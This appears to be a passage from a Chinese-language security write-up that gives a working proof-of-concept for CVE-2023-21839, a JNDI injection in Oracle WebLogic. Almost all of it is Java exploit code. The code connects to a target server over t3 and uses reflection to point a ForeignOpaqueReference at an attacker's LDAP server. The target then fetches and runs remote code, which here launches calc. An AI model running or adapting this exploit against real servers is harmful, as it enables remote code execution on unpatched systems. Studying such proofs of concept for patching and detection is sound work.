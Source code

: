 ```java
ForeignOpaqueReference f = new ForeignOpaqueReference();  
Field jndiEnvironment = ForeignOpaqueReference.class.getDeclaredField("jndiEnvironment");  
jndiEnvironment.setAccessible(true);  
jndiEnvironment.set(f, env2);  
Field remoteJNDIName = ForeignOpaqueReference.class.getDeclaredField("remoteJNDIName");  
remoteJNDIName.setAccessible(true);  
String ldap = "ldap://192.168.1.12:1389/Basic/Command/calc";  
remoteJNDIName.set(f, ldap);
```

最后poc如下：

```php
import javax.naming.Context;  
import javax.naming.InitialContext;  
import java.lang.reflect.Field;  
import java.util.Hashtable;  
import weblogic.deployment.jms.ForeignOpaqueReference;  
import javax.naming.LinkRef;  
public class Main {  
    public static void main(String[] args) throws Exception {  
        String JNDI_FACTORY = "weblogic.jndi.WLInitialContextFactory";  

        // 创建用来远程绑定对象的InitialContext  
        String url = "t3://192.168.79.146:7001"; // 目标机器  
        Hashtable env1 = new Hashtable();  
        env1.put(Context.INITIAL_CONTEXT_FACTORY, JNDI_FACTORY);  
        env1.put(Context.PROVIDER_URL, url); // 目标  
        InitialContext c = new InitialContext(env1);  

        // ForeignOpaqueReference的jndiEnvironment属性  
        Hashtable env2 = new Hashtable();  
        env2.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");  

        // ForeignOpaqueReference的jndiEnvironment和remoteJNDIName属性 ----------------- CVE-2023-21839  
        ForeignOpaqueReference f = new ForeignOpaqueReference();  
        Field jndiEnvironment = ForeignOpaqueReference.class.getDeclaredField("jndiEnvironment");  
        jndiEnvironment.setAccessible(true);  
        jndiEnvironment.set(f, env2);  
        Field remoteJNDIName = ForeignOpaqueReference.class.getDeclaredField("remoteJNDIName");  
        remoteJNDIName.setAccessible(true);  
        String ldap = "ldap://192.168.1.12:1389/Basic/Command/calc";  
        remoteJNDIName.set(f, ldap);  

        // 远程绑定ForeignOpaqueReference对象  
        c.rebind("sectest", f);  
        // lookup查询ForeignOpaqueReference对象  
        try {  
            c.lookup("sectest");  
        } catch (Exception e) {  
        }  
    }  
}
```
